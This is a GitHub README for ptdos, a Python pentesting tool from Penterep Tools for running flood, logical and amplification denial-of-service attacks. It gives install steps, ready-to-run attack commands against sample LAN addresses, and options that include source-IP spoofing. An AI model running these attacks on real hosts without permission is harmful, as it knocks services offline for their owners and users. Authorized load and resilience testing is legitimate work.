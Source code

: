 [![Python 3.10](https://img.shields.io/badge/python-3.10-green.svg)](https://www.python.org/downloads/release/python-3100/)
[![Linux](https://img.shields.io/badge/KaliLinux-2022.1-blue.svg)](https://www.kali.org/blog/kali-linux-2022-1-release/)
[![Linux](https://img.shields.io/badge/UbuntuLinux-22.04-orange.svg)](https://discourse.ubuntu.com/t/jammy-jellyfish-release-notes/24668)
[![OSX](https://img.shields.io/badge/macOS-12.3-purple.svg)](https://developer.apple.com/documentation/macos-release-notes/macos-12_3-release-notes)

![penterepTools](https://www.penterep.com/external/penterepToolsLogo.png)

# ptdos
Application ptdos is used for creation of Denial of Service attacks. It is part of complex system Penterep Tools.

## Implemented Denial of Service attacks
### Flood DoS attacks
* ICMP Flood
* UDP Flood
* SYN Flood
* HTTP GET Flood
* HTTP POST Flood
* HTTP HEAD Flood
### Logical DoS attacks
* Ping of Death
* Slowloris
* R.U.D.Y. - Are You Down Yet?
### Amplification DoS attacks
* Smurf Attack
* NTP Amplification

## ptdos Installation
### Software Requirements
* Python 3.10+
* hping3

### OS Requirements
* Kali Linux 2021.1+
* Ubuntu 22.04+
* macOS 12.3+

### Lib requirements
* ptlibs
* requests
* validators
* impacket
* setuptools

### Installation using pip

```
$ sudo apt install python3-pip
$ sudo pip install ptdos
$ ptdos --help
```

### Cloning source code from GitHub repository
Download ptdos source code, install packages from requirements and run main file ptdos.py

```
$ git clone https://github.com/FilipKam/ptdos
$ cd ptdos
$ sudo pip install -r requirements.txt
$ cd ptdos
$ python3 ptdos.py --help
```

### Install hping3 for SYN Flood
```
$ sudo apt install hping3
```

### Add to PATH
If you cannot invoke the script in your terminal, its probably because it is not in your PATH. Fix it by running commands below.

Add to path for BASH
```bash
echo "export PATH=\"`python3 -m site --user-base`/bin:\$PATH\"" >> ~/.bashrc
source ~/.bashrc
```
Add to path for ZSH
```bash
echo "export PATH=\"`python3 -m site --user-base`/bin:\$PATH\"" >> ~/.zshhrc
source ~/.zshhrc
```

## Getting started using the ptdos 

### Usage examples
**SYN Flood**
```
$ sudo python3 ptdos.py -a synflood -dst 192.168.0.80 -dp 80 -d 10 -ss
```
**UDP Flood**
```
$ python3 ptdos.py -a udpflood -dst 192.168.0.80 -dp 80 -dl 128 -d 4 -st 0.001
```
**HTTP GET Flood**
```
$ python3 ptdos.py -a httpgetflood -d 5 -dst "http://192.168.0.80/test/test" -st 0.001
```
**HTTP POST Flood**
```
$ python3 ptdos.py -a httppostflood -d 5 -dst "http://ptsv2.com/path/example" -body "{'name':'test','age':20}" -qs "par1=val1&par2=val2" -st 0.001
```
**HTTP HEAD Flood**
```
$ python3 ptdos.py -a httpheadflood -d 5 -dst "http://192.168.0.80/test/test" -st 0.001
```
**ICMP Flood**
```
$ sudo python3 ptdos.py -a icmpflood -dst 192.168.0.213 -d 4 --data-length 2048 -st 0.001
```
**Smurf Attack**
```
$ sudo python3 ptdos.py -a smurf -d 10 -dst 192.168.0.80 -bc 192.168.0.255
```
**Ping of Death**
```
$ sudo python3 ptdos.py -a pingofdeath -d 5 -dst 192.168.0.80
```
**NTP Amplification**
```
$ sudo python3 ptdos.py -a ntpampl -dst 192.168.0.80 -d 5
```
**Slowloris**
```
$ python3 ptdos.py -a slowloris -d 5 -dst "http://192.168.0.80" -dp 80 -sq 10 -st 5
```
**R.U.D.Y. - Are You Dead Yet?**
```
$ python3 ptdos.py -a rudy -dst "http://192.168.0.80" -dp 80 -d 5 -st 10
```

### Options
Not all options can be used with every attack. Check the help for each attack by running ptdos.py -h.
```
-a      --attack            Attack name
-d      --duration          Specify attack's duration in seconds. Default 10 seconds.
-dst    --destination       Specify destination IP, domain or url
-dp     --dstport           Specify destination port. Default 80.
-dl     --data-length       Include len random bytes as payload. Default 1024 bytes.
-ss     --spoof-source      Spoof source IP address and port with fake values
-bc     --broadcast         Specify broadcast IP address for attack amplification
-sq     --socksquant        Number of concurrent sockets opened
-st     --sleep-time        Sleep time between packets in seconds. Default 0 seconds.
-body   --body              Specify body of the request
-qs     --query-string      Specify query string of the request like "par1=val1&par2=val2"
-j      --json              Make JSON output
-v      --version           Show script version and exit
-h      --help              Show help message and exit
```


### Issues?

* [Do you have an issue? Reach me out on GitHub!](https://github.com/FilipKam/ptdos/issues "GitHub issues")

## Version History
* 0.1 - first public release as master thesis project

## License

Copyright (c) 2022 HACKER Consulting s.r.o.

ptinsearcher is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, either version 3 of the License, or
(at your option) any later version.

ptinsearcher is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
GNU General Public License for more details.

You should have received a copy of the GNU General Public License
along with ptinsearcher.  If not, see <https://www.gnu.org/licenses/>.

## Warning

You are only allowed to run the tool against the websites which
you have been given permission to pentest. We do not accept any
responsibility for any damage/harm that this application causes to your
computer, or your network. Penterep is not responsible for any illegal
or malicious use of this code. Be Ethical!
